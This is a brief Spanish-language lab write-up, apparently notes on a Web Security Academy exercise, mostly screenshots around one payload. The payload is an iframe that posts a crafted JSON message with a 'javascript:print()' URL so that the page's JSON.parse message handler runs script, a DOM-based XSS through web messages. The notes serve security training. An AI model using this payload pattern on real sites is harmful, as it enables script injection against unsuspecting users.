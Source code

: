 ![[Pasted image 20220807193106.png]]


Desplegando el codigo fuente de la pagina:

![[Pasted image 20220807193700.png]]

en el exploit server ponemos el siguiente payload:

![[Pasted image 20220807193826.png]]


en esencia el payload:
"iframe src=https://0a98000e03445314c03d03fe00f50012.web-security-academy.net/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'"

explota el json.parse para mostrar el mensaje:

![[Pasted image 20220807193945.png]]

![[Pasted image 20220807194021.png]]
